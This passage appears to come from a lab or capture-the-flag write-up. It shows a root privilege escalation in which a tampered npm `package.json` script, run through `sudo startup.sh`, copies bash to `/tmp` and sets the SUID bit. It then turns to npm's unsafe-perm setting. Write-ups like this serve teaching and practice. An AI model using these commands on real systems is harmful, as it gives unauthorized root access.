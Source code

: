 
`cp /bin/bash /tmp/sbash && chmod +s /tmp/sbash` - this command when run and root will give us a SUID copy of `/bin/bash` accessible from `/tmp`

now to move our modified `package.json` back and run the startup script again
```
> cp ~/package.json /opt/app/node_modules/mysql/package.json
> sudo /opt/app/startup.sh
```

[![](/assets/image/attachments/Pasted&#32;image&#32;20220529233348.png)](/assets/image/attachments/Pasted&#32;image&#32;20220529233348.png){:.glightbox}

with some research we come across https://stackoverflow.com/questions/18136746/npm-install-failed-with-cannot-run-in-wd

we discover that we need the unsafe-perm configuration set to true.

we cannot change the npm install commands in the script to add the `--unsafe-perm=true` argument, but we can maybe set it elsewhere

running `npm config ls`

[![](/assets/image/attachments/Pasted&#32;image&#32;20220529234432.png)](/assets/image/attachments/Pasted&#32;image&#32;20220529234432.png){:.glightbox}

with some more googling I find unsafe-perm may be set in .npmrc file

https://pnpm.io/npmrc

[![](/assets/image/attachments/Pasted&#32;image&#32;20220529234537.png)](/assets/image/attachments/Pasted&#32;image&#32;20220529234537.png){:.glightbox}
